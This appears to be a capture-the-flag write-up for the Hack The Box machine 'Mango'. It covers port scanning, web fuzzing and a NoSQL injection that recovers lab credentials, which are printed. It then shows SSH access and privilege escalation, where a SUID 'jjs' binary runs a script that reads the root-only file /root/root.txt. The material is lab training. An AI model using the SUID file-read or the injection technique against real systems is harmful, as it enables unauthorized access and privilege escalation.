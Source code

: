 # [Mango](https://www.hackthebox.eu/home/machines/profile/214)
## IP : 10.10.10.162

## **Step 0** : Ports Scan

![Ports-scan](images/ports_scan.png)

So we have a 22 SSH Port, a 80 HTTP port and a 443 HTTPS port open.

## **Step 1** : Web enumeration

* The HTTP website is forbidden to us.

Fuzzing the HTTP tells us we need to authenticate, and gives us intel on the server.

![fuzz_80](images/fuzz_80.png)



* The 443 gives us some kind of web search engine.

Searching for a word sends a **POST** query :

> https://mango.htb/?search=hello

There is also a link to **analytics.php** 

* FUZZ resultsts : 

![fuzz_443](images/fuzz_443.png)

* We see that **Flexmonster** is used, with hints on dir / files.

```
ErrorUnable to open file flexmonster/codepen.key?438061533.

It seems that this file doesn't exist or 'Access-Control-Allow-Origin' header is absent in the requested resource.

Read more info about this error
Details: <h1>Bad Path</h1><h3 style="color: red">/boomboom/v2/flexmonster/codepen.key</h3>
OK
```

* Seems to be a rabbit hole.

* The ports scan tells us one thing about the 443 server : 

> ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN

We find a web page with credidentials prompt.

> http://staging-order.mango.htb/index.php

With the `lab/exploit.py` we can find the admin password with [NoSQL injection](https://www.dailysecurity.fr/nosql-injections-classique-blind/).

![find_password](images/find_password.png)

So, the password for user `admin` is `t9KcS3>!0B#2`

We found another user, `mango` with password `h3mXK8RhU~f{]f5H`


## SSH & Privilege escalation

```
ssh mango@mango.htb
```

* Using **SUID** permissions : 
```
$ find / -perm /4000
...
$ ls -l /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

-rwsr-sr-- 1 root admin 10352 Jul 18 18:21 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
* We see that **admin** has root permissions on `jjs` : 

```
su admin
```
* Using [GTFOBins with `jjs`](https://gtfobins.github.io/gtfobins/jjs/)

```
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
```

Owned Root !